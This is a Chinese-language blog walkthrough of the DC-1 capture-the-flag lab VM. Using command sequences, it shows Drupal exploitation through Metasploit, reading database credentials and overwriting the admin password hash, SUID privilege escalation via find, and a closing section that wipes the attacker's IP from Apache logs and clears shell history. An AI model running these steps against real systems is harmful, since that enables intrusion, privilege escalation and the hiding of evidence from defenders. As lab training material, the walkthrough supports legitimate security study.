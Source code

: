 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 信息搜集

### 主机发现

```
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透
```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```
#### 获取flag1
![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)
提示查找配置文件
#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)
![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息
```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)
#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```
![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)
![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)
#### 获取flag5

按提示提权

```
find / -perm -4000 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)
## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```
### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```
